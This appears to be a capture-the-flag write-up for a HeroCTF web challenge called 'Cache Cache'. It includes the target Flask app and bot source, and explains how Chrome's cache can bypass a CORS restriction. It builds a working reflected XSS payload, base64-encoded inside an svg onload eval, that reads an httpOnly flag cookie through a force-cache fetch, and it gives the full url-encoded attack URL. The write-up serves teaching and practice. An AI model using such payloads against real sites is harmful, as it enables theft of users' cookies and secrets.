





# web - Cache Cache



## Overview

**Source of the website :**

```py
from flask import Flask, request, Response
app = Flask(__name__)

@app.get("/")
def index():
    res = Response(request.cookies.get("FLAG") if request.cookies.get("FLAG") else "Not authenticated!")
    res.headers["Access-Control-Allow-Origin"] = "*"
    return res

app.run("0.0.0.0", 8000)
```

**Source of the bot :**

```js
const { delay, handleTargetCreated, logMainInfo } = require("./utils");
const puppeteer = require("puppeteer");

// Banner
const tips = ["Every console.log usage on the bot will be sent back to you :)"];
console.log(`==========\nTips: ${tips[Math.floor(Math.random() * tips.length)]}\n==========`);

// Spawn the bot and navigate to the user provided link
async function goto(url) {
    logMainInfo("Starting the browser...");
	const browser = await puppeteer.launch({
		headless: "new",
		ignoreHTTPSErrors: true,
		args: [
			"--no-sandbox",
            "--incognito",
            "--disable-gpu",
            "--disable-jit",
            "--disable-wasm",
            "--disable-dev-shm-usage"
		],
		executablePath: "/usr/bin/chromium-browser"
	});

    // Hook tabs events
    browser.on("targetcreated", handleTargetCreated);
	const page = await browser.newPage();
	await page.setDefaultNavigationTimeout(3000);

    /* ** CHALLENGE LOGIC ** */
    await page.setCookie({
        name: "FLAG",
        value: process.env.FLAG,
        path: "/",
        httpOnly: true,
        samesite: "Strict",
        secure: false,
        domain: process.env.DOMAIN
    });
	try {
	    await page.goto(url);
	} catch {}
    await delay(3000);

    console.log("\nLeaving o/");
    browser.close();
	return;
}

// Handle TCP data
process.stdin.on("data", (data) => {
    const url = data.toString().trim();

    if (!url || !(url.startsWith("http://") || url.startsWith("https://"))) {
        console.log("[ERROR] Invalid URL!");
        process.exit(1);
    }

    goto(url).then(() => process.exit(0));
});
```

Looking at the source code, it's possible to see that that the website print's the `FLAG` cookie of anyone wisiting it. It's important to note that the webiste add's the CORS header `Access-Control-Allow-Origin: *`

The bot behave as the average office worker, meaning it goes to every link that we give him.

## Access-Control-Allow-Origin: * ?

Firstly, let's explain what `Access-Control-Allow-Origin: *` header means.

By looking at mozilla doc here[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin], we can see the following



Basically, this header allows the page to be accessed from any orgin (meaning you can fetch this page from another website), but without credntials. So, the cookies won't be included.

So, even with an XSS, we can't get the content of the cookie ...,  Right ?

## Chrome cache vs Firefox cache

Firefox caches requests in a maner that keeps CORS headers, like describes in the schem below



Whereas Chrome doesn't cache CORS



## Vulnerability

So, what we need to do, is to use the fact that the bot uses Chrome, to open a tab on the website that displays the cookie and then, use another website in the same domain to make it fetch the page. This will use the cache, and show the cookie. In order to do that, we need an XSS, but, wait, we don't have an XSS.

## Finding the XSS

In order to find the XSS, we need to go back to another challenge. Looking back at the web challenge I already solved, I remebered that I found somthing that could likely be transformed in an XSS in `sampleHub` challenge.

Infact, the error message of `file not found` is vulnerable to XSS. Il we url encode `<svg onload=alert(1)>`, we have this nice popup showing. It's important to note that it's note possible to use `/` in the payload, because of the `basename` javascript function. To be free from this limitation, I decided to do a base64 of my javascript code with the payload `<svg onload=eval(atob('base64code'))>`.


## Exploit

To exploit this vulrabilities, we firstly need to open a nex tab, to load the website that shows the cookie. This can easyly be done with javascript.

```js
window.open("http://cache-cache.heroctf.fr:5100/", '_blank').focus();
```

Then, we need to get the page and print the result in the console (we have access to the bot console output). This request need to include `cache: 'force-cache'` in order to get the page from the cache.

```js
fetch("http://cache-cache.heroctf.fr:5100/", {cache: 'force-cache'}).then((r) => r.text()).then((q) => console.log(q))
```

Finally, to send the request to the cache, we need to wait the full opening of the first page. In order to do that, we just have to use the function `setTimeout`, to delay the fetch (2s).

This gives us the final js payload

```js
window.open("http://cache-cache.heroctf.fr:5100/", '_blank').focus();
setTimeout(() => {fetch("http://cache-cache.heroctf.fr:5100/", {cache: 'force-cache'}).then((r) => r.text()).then((q) => console.log(q))}, 2000)
```

That we add to our full XSS payload, wich is finally url-encoded

```
%3Csvg%20onload%3Deval%28atob%28%27d2luZG93Lm9wZW4oImh0dHA6Ly9jYWNoZS1jYWNoZS5oZXJvY3RmLmZyOjUxMDAvIiwgJ19ibGFuaycpLmZvY3VzKCk7CnNldFRpbWVvdXQoKCkgPT4ge2ZldGNoKCJodHRwOi8vY2FjaGUtY2FjaGUuaGVyb2N0Zi5mcjo1MTAwLyIsIHtjYWNoZTogJ2ZvcmNlLWNhY2hlJ30pLnRoZW4oKHIpID0%2BIHIudGV4dCgpKS50aGVuKChxKSA9PiBjb25zb2xlLmxvZyhxKSl9LCAyMDAwKQ%3D%3D%27%29%29%3E
```

The final reflected XSS url will be :

```
http://web.heroctf.fr:5300/download/%3Csvg%20onload%3Deval%28atob%28%27d2luZG93Lm9wZW4oImh0dHA6Ly9jYWNoZS1jYWNoZS5oZXJvY3RmLmZyOjUxMDAvIiwgJ19ibGFuaycpLmZvY3VzKCk7CnNldFRpbWVvdXQoKCkgPT4ge2ZldGNoKCJodHRwOi8vY2FjaGUtY2FjaGUuaGVyb2N0Zi5mcjo1MTAwLyIsIHtjYWNoZTogJ2ZvcmNlLWNhY2hlJ30pLnRoZW4oKHIpID0%2BIHIudGV4dCgpKS50aGVuKChxKSA9PiBjb25zb2xlLmxvZyhxKSl9LCAyMDAwKQ%3D%3D%27%29%29%3E
```



And here we get the flag, thanks for the challenge ! 